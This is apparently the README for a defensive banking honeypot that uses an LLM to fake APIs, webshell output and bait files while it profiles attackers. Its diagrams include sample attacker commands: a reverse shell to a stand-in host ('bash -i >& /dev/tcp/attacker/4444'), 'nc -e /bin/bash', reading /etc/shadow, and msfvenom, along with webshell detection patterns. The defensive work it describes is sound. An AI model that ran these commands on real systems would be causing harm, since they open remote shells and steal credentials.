






# Maze Myth — Dynamic Banking Honeypot

> **A real-time deception platform that traps attackers in an AI-powered banking maze, analyzes their behavior, and never lets them know they're caught.**

---

## 🔥 The Problem

Traditional honeypots are **easily fingerprinted**:

| Problem | Impact |
|---------|--------|
| Static endpoints | Trivially detected in seconds |
| Predictable responses | Reveals fakeness immediately |
| No file upload / webshell simulation | Misses an entire attack vector |
| Zero attacker behavior profiling | You lose context after they disconnect |

**Result**: You capture 10 seconds of recon before they disappear.

---

## 🧠 The Solution — Three Deception Layers


```mermaid
graph TB
    subgraph L1["🌐 Layer 1 — Dynamic API Maze"]
        A1["Infinite AI-generated endpoints"]
        A2["Every attacker sees different data"]
        A3["Gemini generates realistic banking JSON"]
    end

    subgraph L2["📤 Layer 2 — CVE-2020-36179 Upload Trap"]
        B1["Fake Spring & PHP upload portals"]
        B2["Accepts real webshell payloads"]
        B3["AI-generated shell command responses"]
    end

    subgraph L3["🧠 Layer 3 — Attacker Intelligence"]
        C1["Per-IP behavioral profiling"]
        C2["Attack phase classification"]
        C3["Deception strategy advisor"]
    end

    L1 --> L2
    L2 --> L3
    L3 -.->|"Feeds attacker profile back"| L1
```

---

## 🗺️ How the Attack Flow Works

### Layer 1 — Dynamic API Maze (Always Active)


```mermaid
flowchart TD
    A(["🌐 Attacker hits any URL"]) --> B{Fixed route?}
    B -->|Yes| C["BankingDataGenerator\nreturns fresh randomized JSON\nevery request"]
    B -->|No| D["Dynamic catch-all:\nmaze_generator validates path\nassigns access level"]
    D --> E["Gemini LLM generates\nrealistic banking API response\nbased on path context"]
    E --> F{20% chance}
    F -->|Yes| G["FileGenerator creates\nbait file + unique beacon ID\nPDF · XLSX · CSV · XML · JSON · JS · DB"]
    F -->|No| H["Return JSON response\n+ breadcrumb hints to next route"]
    G --> H
    H --> I["Response saved to SQLite\nsame URL → same AI response forever"]
    I --> J{Attacker downloads file?}
    J -->|Yes| K["💥 CRITICAL alert logged\nIP + UA + timestamp recorded"]
    K --> L{Attacker opens file?}
    L -->|Yes| M["🔍 Beacon fires\nCallback tracked by honeypot"]
    M --> N(["🔁 Maze continues forever..."])
```

---

### Layer 2 — CVE-2020-36179 File Upload Trap


```mermaid
sequenceDiagram
    actor A as 🎭 Attacker
    participant H as Honeypot (8001)
    participant Intel as AttackerIntel
    participant RAG as Shell RAG Engine
    participant LLM as Gemini AI

    A->>H: GET /clientportal/support/attachments.php
    H->>Intel: record_form_view(ip, endpoint)
    H-->>A: Realistic PHP upload form (Apache/2.4.54 headers)

    Note over A: Uploads shell.php with webshell code

    A->>H: POST /clientportal/support/attachments.php
    H->>Intel: record_upload(ip, filename, bytes, endpoint)
    Note over H: _analyze_file() → 18 payload tag patterns<br/>_contains_webshell_code() → 13 regex checks<br/>Register in _shell_registry — NO disk write
    H->>Intel: record event → UPLOAD_SHELL (threat=CRITICAL)
    H-->>A: ✅ Success page + /uploads/shell.php URL

    Note over A: Tries to execute webshell

    A->>H: GET /uploads/shell.php?cmd=whoami
    H->>Intel: record_webshell_access(ip, cmd)
    H->>RAG: resolve_shell_command("whoami")

    alt Exact cache (58 ground-truth commands)
        RAG-->>H: "www-data"
    else TF-IDF fuzzy match (Cowrie dataset)
        RAG-->>H: Closest real command output
    else Gemini LLM fallback
        RAG->>LLM: Generate realistic output for "whoami"
        LLM-->>RAG: "www-data"
        RAG-->>H: "www-data" (cached)
    end

    H-->>A: www-data

    Note over A: Tries reverse shell

    A->>H: GET /uploads/shell.php?cmd=bash -i >& /dev/tcp/attacker/4444
    H->>Intel: record_command(ip, cmd) → phase=POST_EXPLOIT risk=95
    Note over H: Simulate 1.5s network hang → EOF
    H-->>A: (empty — simulated connection refused)

    A->>H: GET /api/dashboard/cve/file-upload/attacker/IP
    Note over H: Full profile: geo · phase · risk · deception hints
```

---

### Layer 3 — Attacker Intelligence Engine


```mermaid
flowchart LR
    subgraph Events["📡 Recorded Events (per IP)"]
        E1["🖥️ Form View\nform visit logged"]
        E2["📁 File Upload\nsafe / dangerous / webshell"]
        E3["⚡ ?cmd= Execution\nrisk scored 0–100"]
        E4["🐚 Webshell Exec\nfull command + output"]
    end

    subgraph Session["🧠 AttackerSession Object"]
        direction TB
        S1["📍 IP Geolocation\ncountry · ISP · VPN? · ASN"]
        S2["🔄 Phase Machine\nIDLE→RECON→EXPLOIT→POST_EXPLOIT→LATERAL"]
        S3["📊 Engagement Score\n0–100 (weighted by event type)"]
        S4["🔬 File Analysis\n18 payload patterns · extension risk"]
        S5["💀 Command Timeline\nrisk-sorted · top 15 shown"]
        S6["🎯 Deception Advisor\nhints to keep attacker engaged"]
    end

    subgraph Output["📊 Dashboard Output"]
        D1["Global Stats\nuploads · webshells · rev-shells"]
        D2["Top Attackers\nby engagement score"]
        D3["Phase Distribution\nhow far attackers have gotten"]
        D4["Dangerous Commands\ntop 20 by risk score"]
        D5["Per-IP Deep Profile\nfull timeline + deception hints"]
    end

    Events --> Session
    Session --> Output
```

---

### Attack Phase State Machine


```mermaid
stateDiagram-v2
    direction LR
    [*] --> IDLE : IP connects

    IDLE --> RECON : whoami / id / ls / hostname / uname
    RECON --> EXPLOIT : cat /etc/shadow / sudo -l / SUID hunt / wget
    EXPLOIT --> POST_EXPLOIT : bash -i >& /dev/tcp / nc -e / python socket.connect
    POST_EXPLOIT --> LATERAL : ssh user@host / crontab -e / scp / rsync

    LATERAL --> [*] : Session ends

    note right of IDLE
        Engagement: 0
        Just connected or probing
    end note

    note right of RECON
        Risk: 15–35
        whoami, id, hostname, ps aux,
        ifconfig, env, history
    end note

    note right of EXPLOIT
        Risk: 45–80
        sudo -l, cat /etc/shadow,
        useradd, curl/wget, chmod 4755,
        SUID/SGID hunt
    end note

    note right of POST_EXPLOIT
        Risk: 85–95
        bash -i >& /dev/tcp/...
        nc -e /bin/bash
        python3 -c socket.connect
        msfvenom / meterpreter
    end note

    note right of LATERAL
        Risk: 65–80
        SSH lateral move, cron persistence,
        file exfiltration, scheduled tasks
    end note
```

---

### Shell RAG Resolution Pipeline


```mermaid
flowchart TD
    CMD(["?cmd=<command>"]) --> S1

    S1{"1️⃣ Exact cache match\n58 ground-truth commands"}
    S1 -->|Hit| OUT(["Return output"])
    S1 -->|Miss| S2

    S2{"2️⃣ Case-insensitive\nexact match"}
    S2 -->|Hit| OUT
    S2 -->|Miss| S3

    S3{"3️⃣ Dynamic handler\necho · cat path · grep · ls path · revshell→hang"}
    S3 -->|Handled| OUT
    S3 -->|Miss| S4

    S4{"4️⃣ TF-IDF fuzzy match\nCowrie 235-session dataset\nthreshold ≥ 0.40"}
    S4 -->|Score ≥ 0.40| OUT
    S4 -->|Score < 0.40| S5

    S5{"5️⃣ Gemini LLM\nlive generation · cached per session"}
    S5 -->|Generated| OUT
    S5 -->|API error| S6

    S6["6️⃣ Fallback\nbash: command: command not found"]
    S6 --> OUT
```

---

## ✅ Feature Status

| #   | Feature                                       | Status     |
| --- | --------------------------------------------- | ---------- |
| 1   | Docker + Gunicorn containerization            | ✅ Done     |
| 2   | SQLite state (WAL mode, 5 tables)             | ✅ Done     |
| 3   | Gemini AI — banking API response generation   | ✅ Done     |
| 4   | Gemini AI — shell command response generation | ✅ Done     |
| 5   | Gemini AI — bait file content generation      | ✅ Done     |
| 6   | Dynamic banking data (randomized per request) | ✅ Done     |
| 7   | Multi-format tracked bait files + beacons     | ✅ Done     |
| 8   | CVE-2020-36179 File Upload RCE deception      | ✅ Done     |
| 9   | Hybrid Shell RAG Engine (Cowrie + Gemini)     | ✅ Done     |
| 10  | Attacker Intelligence & Behavior Profiling    | ✅ Done     |
| 11  | IP Geolocation (ip-api.com, no key needed)    | ✅ Done     |
| 12  | Deception Strategy Advisor                    | ✅ Done     |
| 13  | LLM Offline Fallback (Offline AI)             | 🔜 Planned |
| 14  | Webhook + SIEM Alerts                         | 🔜 Planned |
| 15  | Tarpit Mode                                   | 🔜 Planned |

---

## 🚀 Key Features

### 1. Dynamic API Maze — Infinite Endpoints
Every attacker sees **different data on every request**. No fingerprinting possible:
- **Companies**: 8–20 per call · **Accounts**: 15–40 · **Transactions**: 20–100 · **Payments**: 10–35 · **Users**: 5–15
- **Gemini LLM** generates realistic JSON for any unknown path (context-aware, path-matched)
- **Consistency**: same URL always returns the same AI response (saved to SQLite)
- **Breadcrumbs**: each response hints at the next route, keeping attackers exploring deeper

### 2. CVE-2020-36179 — File Upload RCE Trap
Simulates a vulnerable banking document upload portal:
- **Two realistic endpoints**: Spring Java compliance portal + PHP client support portal
- **Deceptive headers**: `Apache-Coyote/1.1` / `Apache/2.4.54 (Debian)` with Spring/PHP `X-Powered-By`
- **Only real payloads trigger the trap**: 13 webshell patterns checked (PHP system/eval/passthru/etc.)
- **Shell registry**: uploaded filenames stored in `_shell_registry` — **no files ever written to disk**
- **18-pattern file analysis**: threat level (LOW / MEDIUM / HIGH / CRITICAL), extension risk, payload tags
- **AI shell execution**: Gemini generates realistic terminal output for every `?cmd=` hit

### 3. Hybrid Shell RAG Engine
Generates authentic terminal responses using a 6-step resolution pipeline:
- **58 ground-truth commands** — always correct, always `www-data` identity
- **TF-IDF fuzzy matching** on 235 real Cowrie attacker sessions (threshold 0.40)
- **Dynamic handlers** for `echo`, `cat <path>`, `grep`, `ls <path>`, and reverse shell patterns (→ hang)
- **Gemini LLM fallback** for novel commands (cached per session for consistency)

### 4. Attacker Intelligence Dashboard
Full behavioral profiling of every attacker IP:

```
GET /api/dashboard/cve/file-upload             → Global intelligence summary
GET /api/dashboard/cve/file-upload/attackers   → All attacker profiles (sorted by engagement)
GET /api/dashboard/cve/file-upload/attacker/<ip> → Per-IP deep profile with timeline
```

Per-IP profile includes:
- **Geolocation**: country, region, city, ISP, ASN, is_proxy, is_hosting, is_mobile
- **Phase**: current attack phase (IDLE → RECON → EXPLOIT → POST_EXPLOIT → LATERAL)
- **Engagement score**: 0–100 (weighted: upload_shell=+25, webshell_exec=+15, cmd=+risk/5)
- **Command timeline**: all commands run, risk-sorted, with phase labels
- **Uploaded files**: each file's threat level, payload tags, extension risk, reverse-shell indicator
- **Deception hints**: AI-generated recommendations to keep the attacker engaged longer

### 5. Multi-Format Bait Files with Beacons
Every downloaded file has a **unique beacon ID** embedded. Formats supported:

| Format | Extension | Beacon method |
|--------|-----------|---------------|
| PDF | `.pdf` | URL in footer / embedded link |
| Excel | `.xlsx` | Hyperlink in cell |
| CSV | `.csv` | URL column |
| XML | `.xml` | `<beacon>` tag |
| JSON | `.json` | `_beacon_url` field |
| JavaScript | `.js` | `fetch()` call |
| SQLite | `.db` / `.sqlite` | Row in `_tracking` table |
| Text | `.txt` | URL at bottom |

---

## 📁 Architecture

```
Maze-Myth-Dynamic-Honeypot/
│
├── honeypot.py               ← Main Flask app (all routes, ~950 lines)
├── run_honeypot.bat          ← Windows: double-click to start
│
├── src/
│   ├── file_upload_rce.py    ← CVE-2020-36179 deception module
│   ├── attacker_intel.py     ← Behavior analysis & profiling engine
│   ├── api_generator/        ← Maze routing & access control
│   ├── data_generator/       ← Dynamic fake banking data (Faker)
│   ├── file_generator/       ← Tracked bait files (PDF, XLSX, CSV…)
│   ├── llm/                  ← Gemini API integration (banking responses)
│   ├── rag/
│   │   ├── rag_loader.py     ← Banking domain RAG context
│   │   ├── shell_rag_loader.py ← 6-step shell command resolution
│   │   └── shell_rag.pkl     ← Trained Cowrie model
│   └── state/                ← SQLite persistence (WAL mode)
│
├── dashboard/                ← Operator monitoring UI
│   ├── index.html            ← Dashboard UI (port 8002)
│   └── monitor.py            ← Dashboard Flask backend
│
├── docs/                     ← Team documentation
├── docker/                   ← Dockerfile + compose
└── Dataset/                  ← shell_rag.pkl + ai_cmd_cache.json
```

---

## 🚀 Quick Start

### Option A — Docker (Production)

```bash
git clone https://github.com/Mark-Meka/Maze-Myth-Dynamic-Honeypot.git
cd Maze-Myth-Dynamic-Honeypot
cp .env.template .env
# Edit .env: GEMINI_API_KEY=your_key_here
docker compose -f docker/docker-compose.yaml up -d
```

### Option B — Windows (One Click)

```
Double-click run_honeypot.bat
```

### Option C — Manual Setup

```bash
# 1. Install dependencies
pip install -r requirements.txt

# 2. Configure Gemini API
cp .env.template .env
# Edit .env → GEMINI_API_KEY="AIzaSy...your-key..."

# 3. Run both services
python honeypot.py            # Terminal 1 — Honeypot (port 8001)
python dashboard/monitor.py  # Terminal 2 — Dashboard (port 8002)
```

| Service | URL | Audience |
|---------|-----|----------|
| 🎯 Honeypot | `http://localhost:8001` | **Attackers** — expose this |
| 📊 Dashboard | `http://localhost:8002` | **Operators only** |
| 🔍 Intel API | `http://localhost:8001/api/dashboard/cve/file-upload` | **Operators only** |

---

## 🎭 Full Attack Scenario


```mermaid
journey
    title Attacker Journey Through Maze Myth
    section Discovery
        Find /api/v1/auth/login: 5: Attacker
        Get JWT + breadcrumb hint: 3: Honeypot
    section Exploration
        List users/accounts/transactions: 5: Attacker
        Find /api/v2/admin/secrets: 4: Attacker
    section File Theft
        Download encryption_keys.json: 5: Attacker
        CRITICAL alert fired, beacon tracked: 1: Honeypot
    section Upload Exploit
        Find PHP upload portal: 4: Attacker
        Upload shell.php webshell: 5: Attacker
        Registered in shell_registry (no disk write): 1: Honeypot
    section Post-Exploitation
        Run whoami / cat /etc/passwd / env: 5: Attacker
        AI generates realistic terminal output: 3: Honeypot
    section Reverse Shell Attempt
        bash -i >& /dev/tcp/attacker/4444: 5: Attacker
        Simulated hang then EOF: 1: Honeypot
    section Operator Analysis
        Full profile: geo, phase=POST_EXPLOIT, risk=95: 5: Operator
        Deception advice generated: 5: Operator
```

---

## 🔐 Environment Variables

```ini
# config/.env  (copy from .env.template)
GEMINI_API_KEY=AIzaSy...your-key-here...
HONEYPOT_URL=http://localhost:8001
LLM_MODEL=gemini-2.0-flash
```

---

## 🔒 Security Warning

> ⚠️ **This is a deception tool. Run in an isolated environment (VM / container / VLAN).**
> 
> - **Never expose port 8002** — dashboard is for operators only; use SSH tunneling for remote access.
> - The honeypot is designed to be discoverable; it will receive real attack traffic if internet-facing.
> - Review `DEPLOYMENT.md` before any production deployment.

---

## 📜 License

MIT License — See [LICENSE](LICENSE)

## 📞 Contact

**Author**: Mark Meka | **GitHub**: [@Mark-Meka](https://github.com/Mark-Meka) | **LinkedIn**: [Mark Adly](https://www.linkedin.com/in/mark-adly/)
